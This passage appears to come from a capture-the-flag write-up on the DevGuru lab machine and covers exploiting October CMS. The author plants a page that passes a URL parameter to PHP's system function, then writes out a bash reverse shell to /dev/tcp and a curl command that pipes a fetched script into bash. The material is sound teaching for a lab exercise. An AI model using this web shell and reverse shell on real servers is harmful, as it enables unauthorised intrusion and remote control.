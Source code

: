 
## Exploitation
### October Code Execution

We can abuse of October CMS feature to run PHP code and execute system commands, below I created a new page that allow me pass the commands as parameters to the system function.

![](/assets/images/devguru/screenshot-11.png)

The id command was executed.

```bash
root@kali:~$ curl -s http://devguru.local/shell?cmd=id                               
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

I wrote a bash reverse shell in the shell.sh file and started a web server on port 80.

```bash
root@kali:~$ echo '/bin/bash -c "bash -i >& /dev/tcp/192.168.179.1/443 0>&1"' > shell.sh

root@kali:~$ python3 -m http.server 80
```

Start a netcat listener and run the following curl instruction.

```bash
root@kali:~$ curl -s http://devguru.local/shell?cmd=$(php -r "echo urlencode('curl 192.168.179.1/shell.sh | bash');")
```
